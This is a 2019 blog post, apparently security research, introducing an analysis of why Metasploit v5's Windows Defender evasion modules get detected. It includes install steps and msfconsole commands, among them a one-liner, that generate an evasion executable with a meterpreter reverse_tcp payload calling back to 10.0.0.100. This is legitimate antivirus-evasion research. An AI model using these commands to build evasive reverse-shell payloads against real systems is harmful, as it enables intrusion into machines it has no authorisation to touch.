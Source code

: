 ```yaml
---
layout: post
date:   2019-01-23 22:00:00 +0200
categories: research
description: "A research on why the new defender evasion modules fail to evade"
title:  "Beating Windows Defender. Analysis of Metasploit's new evasion modules."
---
```

# Introduction
[I moved this article to my new blog. Click here to read it there.](https://idafchev.github.io/blog/beating_defender/)  

Recently my colleague Alexander Tzokev wrote in his blog [tzokev.com](http://www.tzokev.com/) about the new evasion modules in Metasploit v5 and how they fail at their job of... evading. I wanted to analyze the resulting binaries and see if there's something interesting on the assembly level that might be triggering a signature. This research is based on Alexander's post, but because I want it to be stand-alone, I'll have to repeat some of his findings first. 

# Installing Metasploit v5
Rapid7 announced the release of evasion modules in the new major release of Metasploit (v5). Currently there are only 2 such modules available and both are for Windows Defender. Before I started with the analysis I had to get my hands on Metasploit v5, which is quite easy. Clone the git repository and install some dependencies.

```bash
git clone https://github.com/rapid7/metasploit-framework.git
sudo apt update && sudo apt install -y git autoconf build-essential libpcap-dev libpq-dev zlib1g-dev libsqlite3-dev
cd ~/metasploit-framework/
# you need ruby 2.5.3
gem install bundler
bundle install
# if there are error messages use apt-get install to resolve dependencies
```

Working with the evasion modules is also simple:
```
use evasion/windows/windows_defender_exe
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.0.100
# Verbose prints out the C code template
set verbose true
run
```

Or with the following one-liner from terminal:
```bash
./msfconsole -x 'use evasion/windows/windows_defender_exe; set verbose true; set payload windows/meterpreter/reverse_tcp; set LHOST 10.0.0.100; run;quit;'
```
